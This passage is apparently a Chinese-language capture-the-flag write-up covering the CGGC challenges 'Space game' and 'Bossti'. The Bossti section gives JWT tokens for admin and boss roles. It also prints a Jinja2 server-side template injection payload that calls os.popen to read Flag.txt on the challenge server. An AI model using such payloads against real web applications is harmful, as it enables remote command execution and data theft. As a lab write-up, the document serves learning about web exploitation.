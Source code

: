 Flag: `CGGC{J00_sh4ll_n07_sH1P_S3cR37S_70_cuS70M3r}`
## Space game
### Recon
這一題因為是賽後才寫WP，所以沒有甚麼太詳細的資訊可以記錄，不過這一題的確很misc，但通靈的方向屢屢受挫

1. 首先題目給予一個網頁型的小遊戲(算是類似七八零年代的那種飛船打外星人的那種)，然後過關的條件是要至少活到最後並且打死30個以上的敵人，但這其實根本就和解題沒關係
2. 如果從動態看，可以看到他import一個檔案(game.gb)，misc的地方在於他把flag藏在這個檔案中，所以其實和遊戲一點關係都沒有(心累啊!!!!!)
### Exploit
![圖片](https://hackmd.io/_uploads/HJSpjdKrT.png)
如果實際去看他的binary，會發現有蠻多個flag，但學長測試下來正確的是`CGGC{Y0U_WIN!!123}`

Flag: `CGGC{Y0U_WIN!!123}`
## Bossti
### Background
JWT(maybe??)
SSTI
### Source code

### Recon
這一題也是搞心態，一開始以為他是和jwt有關的題目，所以在第一天打的時候，有嘗試過直接把jwt token改變，但卻過不了，到了第二天用一樣的token卻有不一樣的效果，不知道是不是server有問題或是作者有更新
![圖片](https://hackmd.io/_uploads/Hy-thOKSp.png)

1. admin頁面
    Payload: `eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyX2lkIjoyLCJyb2xlIjoiYWRtaW4iLCJoYWNrIjoiIn0.kmCiItAN6q9xCmrZ1uqhZZP96_pqD5RBMp1Umv0HFKM`
    ![螢幕擷取畫面 2023-12-03 121645](https://hackmd.io/_uploads/Sk6EGttST.png)
2. boss頁面
    Payload: `eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyX2lkIjoxLCJyb2xlIjoiYm9zcyIsImhhY2siOiIifQ.VhS5VSRlR_RrgIlF-gdl-s1_PVHPQCxB3s8oHgwEPJ4`
    ![圖片](https://hackmd.io/_uploads/B17DfKKSa.png)
3. {% raw %}其實看了URL`http://10.99.111.109:5000/admin?data={%27user_id%27%3A+2,+%27role%27%3A+%27admin%27,+%27hack%27%3A+%27%27}`或`http://10.99.111.109:5000/boss?data={%27user_id%27%3A+1,+%27role%27%3A+%27boss%27,+%27hack%27%3A+%27%27}`才覺得應該和jwt認證沒關係，因為就算換到一個無痕頁面也一樣可以看得到，但重點是boss的頁面有給一個疑似是SSTI的提示(7\*7=49經典的payload)，所以剩下的事情就是SSTI payload瘋狂輸出拿flag
   {% endraw %}
### Exploit - SSTI
{% raw %}
Payload: `/boss?data={%27user_id%27%3A+1,+%27role%27%3A+%27boss%27,+%27hack%27%3A+%27{{self.__init__.__globals__.__builtins__.__import__("os").popen("cat%20Flag.txt").read()}}%27}`
{% endraw %}
![圖片](https://hackmd.io/_uploads/Byxfw7KYSa.png)

Flag: `CGGC{"S$T1_V3RY_EZ_2_Pwn3D_C0ngr4t$"}`